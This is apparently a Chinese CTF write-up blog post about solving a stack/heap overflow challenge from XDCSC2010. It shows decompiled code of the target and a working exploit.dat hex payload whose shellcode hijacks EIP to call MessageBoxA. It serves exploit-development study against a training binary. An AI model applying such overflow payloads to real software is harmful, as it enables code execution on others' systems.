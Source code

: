 ```yaml
---
layout: post
title: "一道XDCSC2010溢出题"
description: "XDCSC2010溢出题"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

昨天偶然上了一下xdsec.org，发现上面放了往年的比赛题目，抱着试一试的心态下了xdcsc2010的题目来看看，这是第一个题的笔记。

这是一个溢出题，程序下载[ExploitMe](/assets/file/xdcsc2010/01yichu.zip)，题目要求如下：

![](/assets/img/xdcsc2010/01yichu/1.png)

抄起IDA，找到关键函数，F5一把，下面是大概的流程


	signed int __cdecl sub_401000()
	{
	  HANDLE v0; // eax@1
	  void *v1; // edi@1
	  void *v2; // ebp@1
	  HANDLE v3; // eax@1
	  void *v4; // esi@1
	  unsigned int v5; // ebx@2
	  HMODULE v6; // esi@3
	  signed int v8; // [sp+10h] [bp-318h]@1
	  void *hHeap; // [sp+14h] [bp-314h]@1
	  HANDLE v10; // [sp+18h] [bp-310h]@1
	  DWORD NumberOfBytesRead; // [sp+1Ch] [bp-30Ch]@1
	  int (**v12)(); // [sp+20h] [bp-308h]@1
	  char v13; // [sp+24h] [bp-304h]@4
	  int v14; // [sp+A4h] [bp-284h]@1
	  char v15; // [sp+A8h] [bp-280h]@6
	  char Buffer; // [sp+128h] [bp-200h]@3
	
	  v8 = 0;
	  v12 = &off_4050B4;
	  v14 = (int)off_4050B0;
	  NumberOfBytesRead = 0;
	  v0 = HeapCreate(0, 0x1000u, 0x10000u);
	  v1 = v0;
	  hHeap = v0;
	  v2 = HeapAlloc(v0, 0, 0x200u);
	  v3 = CreateFileA("exploit.dat", 0x80000000u, 1u, 0, 4u, 0x80u, 0);
	  v4 = v3;
	  v10 = v3;
	  if ( v3 != (HANDLE)-1 )
	  {
	    v5 = GetFileSize(v3, 0);
	    if ( v5 <= 0x200 )
	    {
	      ReadFile(v4, &Buffer, v5, &NumberOfBytesRead, 0);
	      memcpy(v2, &Buffer, v5);
	      memset(&Buffer, 0, 0x200u);
	      v6 = LoadLibraryA("user32.dll");
	      dword_408510 = (int)GetProcAddress(v6, "MessageBoxW");
	      dword_408514 = (int)GetProcAddress(v6, "MessageBoxA");
	      if ( v5 <= 0x84 )
	        memcpy(&v13, v2, v5);
	      HeapFree(hHeap, 1u, v2);
	      memset(v2, 0, 0x80u);
	      if ( v5 <= 0x84 )
	        memcpy(&v15, v2, v5);
	      ((void (__thiscall *)(int (***)()))*v12)(&v12);
	      (*(void (__thiscall **)(int *))v14)(&v14);
	      v1 = hHeap;
	      v4 = v10;
	      v8 = 1;
	    }
	  }
	  if ( v4 )
	    CloseHandle(v4);
	  if ( v2 )
	    HeapFree(v1, 1u, v2);
	  if ( v1 )
	    HeapDestroy(v1);
	  return v8;
	}

程序流程还是比较明了的，先读取exploit.dat里面的数据到stack上面，接着拷到heap，再倒腾回stack，真实蛋疼，之前就受这个影响考虑多了，以为要涉及堆溢出等。主要是要注意到函数末尾的两个call，v12和v14，经过调试可以发现v14里面的数据是我们可以控制的。这里我就犯了一个错误，导致浪费了大量时间。我当时注意到函数中已经得到了MessageBoxA的地址（dword_408514），我就想直接跳过去，但是由于esp在低地址，参数老是构造不好，因为esp那块数据没有办法覆盖。


今天上午才突然开了窍，既然eip都控制了，还有啥干不了的，直接将eip定位到stack上我们能够覆盖到的数据，然后写几句压栈的shellcode，之后跳转到MessageBoxA里面去。最终的exploit.dat如下

	00000000h: 7C FC 12 00 51 6A 00 68 C8 FC 12 00 68 D8 FC 12 ; |?.Qj.h赛..h攸.
	00000010h: 00 6A 00 B9 14 85 40 00 FF 11 59 C3 00 00 00 00 ; .j.?匑..Y?...
	00000020h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000030h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000040h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000050h: 45 78 70 6C 6F 69 74 4D 65 00 00 00 00 00 00 00 ; ExploitMe.......
	00000060h: 45 78 70 6C 6F 69 74 20 73 75 63 63 65 73 73 00 ; Exploit success.
	00000070h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000080h: 78 FC 12 00                                     ; x?.


溢出结果


![](/assets/img/xdcsc2010/01yichu/2.PNG)